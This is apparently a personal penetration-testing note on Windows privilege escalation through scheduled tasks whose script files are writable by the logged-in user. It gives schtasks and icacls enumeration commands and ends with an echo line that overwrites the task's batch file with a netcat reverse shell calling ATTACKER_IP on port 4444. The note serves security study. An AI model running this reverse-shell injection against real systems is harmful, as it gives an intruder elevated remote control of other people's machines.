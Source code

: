 ## Run as user:

if a scheduled task has a value for "run as user" and the current logged in user has full (F) access to the file being run then you can exploit this:

NOTE: run in cmd.exe

Check for all scheduled tasks:

`schtasks`

find details on specific task such as "run as user"

`schtasks /query /tn vulntask /fo list /v`

![Screenshot 2023-05-16 at 18.56.02.png](../../../_resources/Screenshot%202023-05-16%20at%2018.56.02.png)

From here use "icacls" to check wether you have full (F) or other modification rights to the scheduled task

`icacls c:\tasks\schtask.bat`

![Screenshot 2023-05-16 at 18.59.00.png](../../../_resources/Screenshot%202023-05-16%20at%2018.59.00.png)

From here if you have the correct permissions you can then inject your reverse shell into the task if it is a batch file or something close to it:

`echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`